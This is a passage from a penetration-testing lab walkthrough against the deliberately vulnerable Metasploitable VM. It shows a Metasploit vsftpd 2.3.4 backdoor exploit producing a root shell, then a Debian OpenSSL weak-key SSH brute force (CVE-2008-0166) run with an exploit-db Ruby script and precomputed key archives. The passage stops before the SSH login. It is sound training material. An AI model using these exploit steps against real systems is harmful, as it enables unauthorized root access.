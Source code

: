 ``` plain

msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.127.159:57936 -> 192.168.127.154:6200) at 2014-06-03 22:42:36 +0300

whoami
root
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

Aaand we own the machine! Now let's move on.

### Port 22 ssh

The OpenSSL package installed on the system is vulnerable to a bruteforce exploit  due to a random number generator weakness. Here's the overview and the CVE number:

**CVE-2008-0166**

> OpenSSL 0.9.8c-1 up to versions before 0.9.8g-9 on Debian-based operating systems uses a random number generator that generates predictable > numbers, which makes it easier for remote attackers to conduct brute force guessing attacks against cryptographic keys.

I chose the following Ruby exploit:

http://www.exploit-db.com/exploits/5632/

Before running it, you have to download the precalculated vulnerable keys from:

http://www.exploit-db.com/sploits/debian_ssh_dsa_1024_x86.tar.bz2  # for dsa keys

http://www.exploit-db.com/sploits/debian_ssh_rsa_2048_x86.tar.bz2 # for rsa keys

Then I ran the script as follows:

``` plain
ruby ./5632.rb 192.168.127.154 root ~/rsa/2048/
```

You can consult the source for more information, basically this checks if the root account has a weak SSH key, testing each key in the directory where you placed the keys. Upon a hit, you will see something like this:

``` plain
KEYFILE FOUND:

57c3115d77c56390332dc5c49978627a-5429
```

After finding the key, you can use it to log in as root via ssh:
